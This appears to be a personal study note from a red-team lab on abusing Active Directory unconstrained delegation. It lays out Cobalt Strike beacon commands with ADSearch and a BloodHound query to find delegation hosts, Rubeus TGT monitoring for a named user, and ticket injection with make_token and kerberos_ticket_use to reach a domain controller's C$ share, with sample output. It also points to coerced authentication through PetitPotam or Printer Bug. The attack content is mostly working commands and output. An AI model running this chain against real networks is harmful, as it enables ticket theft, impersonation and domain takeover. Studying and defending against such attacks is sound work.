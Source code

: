 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Unconstrained Delegation]]  
___

## Description:  

Delegation allows a user or a service to act on behalf of another user to another service.

If we can compromise a machine with unconstrained delegation, we can extract any TGTs from its memory and use them to impersonate the users against other services in the domain.

In CobaltStrike:

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

In Bloodhound:

```
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
```

Look for machines we have compromised.

If we compromise SRV-1 and wait or engineer a privileged user to interact with it, we can steal their cached TGT. Interaction can be any Kerberos service, so something as simple as `dir \\srv-1\c$` is enough.

Rubeus has a `monitor` command (requires elevation) that will continuously look for and extract new TGTs. On SRV-1:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:nlamb /interval:10

[*] Action: TGT Monitoring
[*] Target user     : nlamb
[*] Monitoring every 10 seconds for new TGTs

```

You can wait for authentication or force is with [[PetitPotam]] or [[Printer Bug]]

Write the base64 decoded string to a `.kirbi` file on your attacking machine. Create a sacrificial logon session, pass the TGT into it and access the domain controller.

```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 16:49:25   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/21/2021 11:20:15   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     02/17/2021 18:50:37   Users
          dir     02/19/2021 13:26:27   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     03/09/2021 10:26:16   pagefile.sys
```





To stop Rubeus, use Cobalt Strike `jobs` and `jobkill` commands.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:42 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

